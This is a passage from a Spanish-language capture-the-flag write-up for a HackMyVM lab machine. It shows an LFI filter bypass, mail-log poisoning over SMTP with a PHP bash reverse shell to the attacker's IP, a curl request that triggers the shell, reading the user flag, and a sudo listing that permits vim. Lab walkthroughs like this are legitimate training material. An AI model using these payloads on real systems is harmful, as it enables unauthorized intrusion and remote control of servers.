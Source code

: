 Pues tras unas pruebas, vemos que tiene una restricción que borra "../", pero lo podemos solucionar de esta forma que muestro.


### Log poisoning

Vamos ahora a envenenar el log del mail:

~~~bash
❯ nc 192.168.1.18 25
220 logan.hmv ESMTP Postfix (Ubuntu)
MAIL FROM: kaian
250 2.1.0 Ok
RCPT TO: <?php exec('bash -c "/bin/bash -i >& /dev/tcp/192.168.1.150/1234 0>&1"'); ?>
501 5.1.3 Bad recipient address syntax
~~~

Lo que estamos realizando es conectarnos por nc al puerto 25 para enviar un email con una reverse shell a nuestra máquina de atacante.

Por tanto, ignoramos esta advertencia y abriremos como siempre un listener con nc en nuestra máquina: `nc -nlvp 1234`

Ahora sí, cargamos directamente el log con curl:

~~~bash
❯ curl admin.logan.hmv/payments.php -d "file=....//....//....//....//....//....//var/log/mail.log"
~~~

Automáticamente nos da una shell. Así que realizamos el [tratamiento de la TTY](https://kaianperez.github.io/tty/) y vamos a por la flag de user:

~~~bash
www-data@logan:/var/www/admin$ export TERM=xterm
www-data@logan:/var/www/admin$ cd /home
www-data@logan:/home$ ls
logan
www-data@logan:/home$ cd logan
www-data@logan:/home/logan$ ls
to-do  user.txt
www-data@logan:/home/logan$ cat user.txt
User: iXXXXXXXs
www-data@logan:/home/logan$ cat to-do 
- Go outside
- Try the new script that gave me root to learn python
~~~


## Escalada de privilegios

Parece que nos da una pista ese texto, si revisamos los permisos que tenemos como otros usuarios:

~~~bash
www-data@logan:/home/logan$ sudo -l
Matching Defaults entries for www-data on logan:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on logan:
    (logan) NOPASSWD: /usr/bin/vim
~~~
